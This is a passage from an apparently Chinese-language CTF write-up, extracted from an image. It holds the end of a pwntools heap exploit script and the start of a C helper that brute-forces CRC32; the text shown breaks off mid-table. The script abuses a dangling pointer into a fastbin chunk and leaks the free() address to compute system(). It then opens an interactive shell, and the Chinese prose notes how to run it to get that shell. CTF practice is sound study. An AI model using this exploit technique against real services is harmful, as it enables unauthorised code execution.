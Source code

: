 ```python

toggle_worker(WORKER2_ADDR + heap_base_addr)

#now job_stack is dangling pointer pointing to chunk in fastbin

request_crc32_comp(crack_crc32(JOB1_CONTENT_ADDR + heap_base_addr))

yield_worker()
yield_worker()

sh.send("3\n")



sh.recvuntil("Getting Job\n")
got_info = sh.recv()
free_addr = parse_addr(got_info)
print "free addr: " + hex(free_addr)
system_addr = free_addr - FREE_ADDR + SYSTEM_ADDR
print "system addr: " + hex(system_addr)

sh.send(hex(system_addr)[2:] + "\n")

sh.interactive()
```

顺便提一下，在服务器的shell中直接python运行这个脚本的话，from pwn import \*这里会卡死，不知道为什么，有大神知道的话，可以讨论一下。所以我说先python打开交互式界面，然后手动import我的exp，就可以getshell了。。。

其中，crack\_crc32是用来爆破crc32的程序，因为是爆破，所以exp的运行时间可能会有些长。代码如下：
```c
#include <stdint.h>
#include <stdio.h>
static uint32_t crc32_tab[] = {
  0x00000000, 0x77073096, 0xee0e612c, 0x990951ba, 0x076dc419, 0x706af48f,
  0xe963a535, 0x9e6495a3, 0x0edb8832, 0x79dcb8a4, 0xe0d5e91e, 0x97d2d988,
  0x09b64c2b, 0x7eb17cbd, 0xe7b82d07, 0x90bf1d91, 0x1db71064, 0x6ab020f2,
  0xf3b97148, 0x84be41de, 0x1adad47d, 0x6ddde4eb, 0xf4d4b551, 0x83d385c7,
  0x136c9856, 0x646ba8c0, 0xfd62f97a, 0x8a65c9ec, 0x14015c4f, 0x63066cd9,
  0xfa0f3d63, 0x8d080df5, 0x3b6e20c8, 0x4c69105e, 0xd56041e4, 0xa2677172,
  0x3c03e4d1, 0x4b04d447, 0xd20d85fd, 0xa50ab56b, 0x35b5a8fa, 0x42b2986c,
  0xdbbbc9d6, 0xacbcf940, 0x32d86ce3, 0x45df5c75, 0xdcd60dcf, 0xabd13d59,
  0x26d930ac, 0x51de003a, 0xc8d75180, 0xbfd06116, 0x21b4f4b5, 0x56b3c423,
  0xcfba9599, 0xb8bda50f, 0x2802b89e, 0x5f058808, 0xc60cd9b2, 0xb10be924,
  0x2f6f7c87, 0x58684c11, 0xc1611dab, 0xb6662d3d, 0x76dc4190, 0x01db7106,
  0x98d220bc, 0xefd5102a, 0x71b18589, 0x06b6b51f, 0x9fbfe4a5, 0xe8b8d433,
  0x7807c9a2, 0x0f00f934, 0x9609a88e, 0xe10e9818, 0x7f6a0dbb, 0x086d3d2d,
  0x91646c97, 0xe6635c01, 0x6b6b51f4, 0x1c6c6162, 0x856530d8, 0xf262004e,
  0x6c0695ed, 0x1b01a57b, 0x8208f4c1, 0xf50fc457, 0x65b0d9c6, 0x12b7e950,
  0x8bbeb8ea, 0xfcb9887c, 0x62dd1ddf, 0x15da2d49, 0x8cd37cf3, 0xfbd44c65,
  0x4db26158, 0x3ab551ce, 0xa3bc0074, 0xd4bb30e2, 0x4adfa541, 0x3dd895d7,
  0xa4d1c46d, 0xd3d6f4fb, 0x4369e96a, 0x346ed9fc, 0xad678846, 0xda60b8d0,
  0x44042d73, 0x33031de5, 0xaa0a4c5f, 0xdd0d7cc9, 0x5005713c, 0x270241aa,
  0xbe0b1010, 0xc90c2086, 0x5768b525, 0x206f85b3, 0xb966d409, 0xce61e49f,
  0x5edef90e, 0x29d9c998, 0xb0d09822, 0xc7d7a8b4, 0x59b33d17, 0x2eb40d81,
  0xb7bd5c3b, 0xc0ba6cad, 0xedb88320, 0x9abfb3b6, 0x03b6e20c, 0x74b1d29a,
  0xead54739, 0x9dd277af, 0x04db2615, 0x73dc1683, 0xe3630b12, 0x94643b84,
  0x0d6d6a3e, 0x7a6a5aa8, 0xe40ecf0b, 0x9309ff9d, 0x0a00ae27, 0x7d079eb1,
  0xf00f9344, 0x8708a3d2, 0x1e01f268, 0x6906c2fe, 0xf762575d, 0x806567cb,
  0x196c3671, 0x6e6b06e7, 0xfed41b76, 0x89d32be0, 0x10da7a5a, 0x67dd4acc,
  0xf9b9df6f, 0x8ebeeff9, 0x17b7be43, 0x60b08ed5, 0xd6d6a3e8, 0xa1d1937e,
  0x38d8c2c4, 0x4fdff252, 0xd1bb67f1, 0xa6bc5767, 0x3fb506dd, 0x48b2364b,
  0xd80d2bda, 0xaf0a1b4c, 0x36034af6, 0x41047a60, 0xdf60efc3, 0xa867df55,
  0x316e8eef, 0x4669be79, 0xcb61b38c, 0xbc66831a, 0x256fd2a0, 0x5268e236,
```